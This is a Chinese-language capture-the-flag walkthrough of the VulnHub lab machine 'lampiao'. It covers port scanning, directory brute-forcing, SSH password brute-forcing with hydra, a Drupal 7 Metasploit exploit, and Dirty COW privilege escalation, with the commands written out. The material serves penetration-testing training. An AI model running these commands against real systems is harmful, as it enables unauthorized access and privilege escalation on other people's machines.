

# 前言

靶机：`lampiao`，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

该靶机目前只剩下一个了，之前记得是有两台构成系列的。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行


# 信息收集

## 使用nmap扫描端口

```shell
nmap -sV -O 192.168.10.11 -p-
```


进一步构造语句测试

```shell
nmap -sV -O 192.168.10.11 -p 22,80,1898 -sC
```


## 网站信息探测

访问80端口，这给出的相当于提示，页面源代码中也并未有其他内容


访问`1898`端口，之气在使用`nmap`的默认脚本扫描，发现一些内容，进行验证测试

通过访问查看后，发现的图标以及登录界面。再使用`wappalyzer`插件识别出确实是`drupal 7`

这个插件可以通过浏览器插件下载，各个浏览器都有


使用`whatweb`也是识别出


使用`gobuster`爆破目录

```shell
gobuster dir -u http://192.168.10.11:1898 -w /usr/share/wordlists/dirb/big.txt -x php,bak,txt,js,html -b 403-404
```



再使用`dirsearch`其默认字典试试

```shell
dirsearch -u http://192.168.10.11:1898 -x 403,404 -e zip,gz
```


访问`robots.txt`，其中包含甚多


测试多个，访问也只发现版本`7.54`


# 漏洞寻找

在主页发现一个文章，有点东西


点击查看，发现`http`的请求，是在`robots.txt`中不允许的访问


那么就访问`node/2`进行测试，发现两个文件，并且还有提示，应该是隐写


直接构造链接测试访问

```shell
http://192.168.10.11:1898/audio.m4a
http://192.168.10.11:1898/qrc.png

#下面的是/node/3下的文件
http://192.168.10.11:1898/LuizGonzaga-LampiaoFalou.mp3
```

其中一个音频，一个二维码，下载到`kali`中进行测试

对于二维码，可以通过在线网站解析有无隐藏内容，或者通过命令`zbarimg`，可直接在`kali`通过`apt`下载即可使用，获取到信息`Try harder! muahuahua`

```shell
zbarimg qrc.png
```


测试上面的`audio.m4a`文件，并非隐写，而是直接语音读出`user:tiago`，则，这个信息就是在主文章界面中的文章作者


# 获取shell

## 爆破ssh获取shell

不过两个文章，这里通过音频给出，就测试这一个用户，先使用`cewl`爬取网站，生成一个字典，用于爆破该用户，如果不行，再换字典

```shell
cewl http://192.168.10.11:1898 -w pass.txt -m 3
```

这里有两个地方可以测试，一个是网站的登录，一个是`ssh`的连接

在使用`hydra`测试爆破网站登录时，发现结果是有了，但是登录不成功

这里的登录时的表单数据，是通过浏览器抓取的


那么再测试`ssh`一下，获取到密码`Virgulino`

```shell
hydra -l tiago -P pass.txt 192.168.10.11 ssh
```


以这个进行测试登录，发现可以成功登录


## CMS漏洞获取shell

或者通过`searchsploit`搜索有无对应的版本漏洞进行测试，也就是`druapl`的漏洞

```shell
searchsploit drupal 7.54
```

发现有，但是大部分都是借助`msf`的，这里启动`msf`，毕竟这个工具还是要会使用的

```shell
msfconsole
search drupal 7
use 1
```


```shell
options
set rhosts 192.168.10.11
set rport 1898
run
```


# 靶机内信息收集

首先这里可以两种登录，一直是通过`msf`反弹的`www-data`，一种是`ssh`爆破的`tiago`用户

使用`find`寻找具有SUID权限的文件，发现`sudo`，测试发现`sudo`没有可用

```shell
find / -perm -4000 -print 2>/dev/null
```


切换之前`ssh`登录的，测试，也是没有`sudo`


查看定时任务，网络状态、进程等等信息，最好可以上传`pspy64`进行检测

````shell
cat /etc/crontab
ls -l /etc/cron.d
````


```shell
ss -antlp
ip add
```


```shell
ps -aux
top
df -h
```

收集内核信息和操作系统信息


# 提权

使用`searchsploit`搜索有无内核版本提权漏洞，发现有几个合适的，需要进一步进行测试


在靶机内使用`gcc -v`测试，发现靶机内可以使用`gcc`，那么可以把`c`文件通过`python`和`wget`等搭配，不过测试发现，不行，把在`kali`编译好的文件，上传到靶机去执行，也是不可以的。

是提权脚本不对吗，上传一个脚本检测`[linux-exploit-suggester.sh]`

项目地址`https://github.com/The-Z-Labs/linux-exploit-suggester`

执行脚本`./les.sh`，发现几个分析很有可能的提权，不过测试前三个发现不行，不过这里发现脏牛提权，啧，`ai`搜索一下

> - 一般来说，内核版本在 3.13 到 4.8 之间的 Linux 系统都可能存在风险，Ubuntu 14.04 默认使用的是 3.13.x 系列内核，在未打补丁前是受影响的。
> - 虽然脏牛漏洞主要影响特定的内核版本，但它利用的是内核的内存管理机制中的一个相对通用的特性。许多内核版本可能都采用了相似的内存管理和写时复制机制，只是在细节上有些许差异。即使不是完全相同的内核版本，只要这些内核使用了类似的内存管理代码和逻辑，就有可能受到影响。


使用`searchsploit`进一步进行测试，因为这个漏洞搜索，就是根据`exploit`漏洞库的


经测试，发现只有`40847.cpp`是可用的，因为我该测试都测试了

可以查看这个脚本，其中有用法

```shell
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```


那么这时候测试，发现靶机内可以使用`g++`，把文件下载到靶机内，这里采用`ssh`连接后的用户`tiago`，采用`scp`传输，在`kali`中执行

```shell
scp 40847.cpp tiago@192.168.10.11:/tmp
```


然后执行上面的用法即可


# 总结

该靶机考察以下几点：

1. 对于博客型网站，可能作者在编写时存在信息泄露，或者说对于参数设置不当，导致可以通过设置参数发现隐藏信息

2. 对于`msf`的使用，当发现网站CMS的版本信息等时，可以测试一下有无版本漏洞

3. 对于靶机内的系统信息，当发现版本信息及内核版本后，使用`searchsploit`搜索，当都测试发现无可利用时，适当的放宽条件，比如只指定内核信息，或者只指定操作系统信息等。

   或者借助工具进行自动化的审计，当发现适合的提权方式后，就可以进行一个个的测试


